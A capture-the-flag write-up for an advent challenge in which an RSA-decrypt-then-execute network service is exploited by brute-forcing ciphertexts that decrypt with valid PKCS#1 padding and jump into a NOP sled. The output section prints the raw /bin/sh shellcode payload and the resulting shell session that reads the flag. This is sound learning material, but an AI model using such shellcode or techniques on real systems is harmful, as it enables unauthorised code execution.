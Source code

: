 # Day 7 - Naughty or Nice V2 - pwn, crypto

> Last year, Santa made a network service to receive instructions for Christmas wishes. Unfortunately it had some security issues, which have now been fixed. Hopefully...

Service: nc 3.93.128.89 1207

Download: [4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz](https://advent2019.s3.amazonaws.com/4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz)

Mirror: [naughty_or_nice](./static/naughty_or_nice)

## Analysis

Pulling up the binary in Ghidra, we can see that it is fairly simple. The decompilation for the main function is done pretty well and is shown below.

![main decompile](./images/day7_main_decompile.png)

Basically, what this says is that a ciphertext will be read, it will be RSA decrypted, checked that it has a PKCS1 padding, and then executed. Now, in most instances, this wouldn't lead immediately to complete code execution because we can't easily construct enough shellcode with a PKCS1 padding to run a system shell.

However, there is one bug in this program which allows for much easier code execution. In looking at where data is stored in memory, we have the following:

```
0x00104160-0x001041df	ciphertext
0x001041e0-0x00104259	plaintext
```

Furthermore, the `make_executable` function call doesn't make _just_ the ciphertext executable, but the entire page which includes the ciphertext. Since we fully control the ciphertext and it is the only location where we can write data this seems like the obvious spot for shellcode.

## Constructing Ciphertext

Since we don't know the private RSA key, we can't just create a ciphertext that will decrypt correctly with padding. So, for our purposes, decrypting any ciphertext will give something like random data. Because this is the case, we can choose ciphertext which contains all of our shellcode (to execute `/bin/sh`) with some a NOP sled before it and some random data, and then force it through the decryption operation locally. If we do this enough times with random data prior to the NOP sled, then we'll get a payload which decrypts with valid PKCS1 padding.

Now, having the padding alone won't be enough to execute our shellcode - it will just have random instructions. So, I chose to add another constraint which was that the decrypted contents contained a stub instruction such as `jmp -N` where N is some relatively nice value which would jump to our shellcode. By testing a lot of potential ciphertexts, I eventually came up with one that worked. With this in hand, it can be sent to the server for a shell. My solution is included [in a python script](./solutions/day7_solver.py) and the output is shown below. The function to construct the ciphertext is also included in the script.

```
$ ./solver.py
After last year's embarrassment, Santa decided to simplify how he authenticated letters.

 "What's the point of hashing the message first, if the message is short?
  We can just encrypt the message itself with the private key!
  It should be fine as long as we use a secure padding scheme like PKCS#1 1.5, right?"

So, what would you like for Christmas?

>> b'\x0c\x06\xb2\\\x95\xea\x01W\xbb3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05'
Nice!
Nice!

>> b'id\n'
uid=999(ctf) gid=999(ctf) groups=999(ctf)

>> b'ls -al\n'
total 36
drwxr-xr-x 1 root ctf   4096 Dec  6 18:17 .
drwxr-xr-x 1 root root  4096 Dec  6 18:17 ..
-r--r----- 1 root ctf     36 Dec  6 18:14 flag
-rwxr-x--- 1 root ctf  17712 Dec  6 18:14 naughty_or_nice
-rwxr-x--- 1 root ctf     47 Dec  6 18:14 redir.sh

>> b'cat flag\n'
AOTW{Nev3r_Ev3r_r0ll_ur_0wn_crypt0}

>> b'cat redir.sh\n'
#! /bin/bash
cd /home/ctf && ./naughty_or_nice
```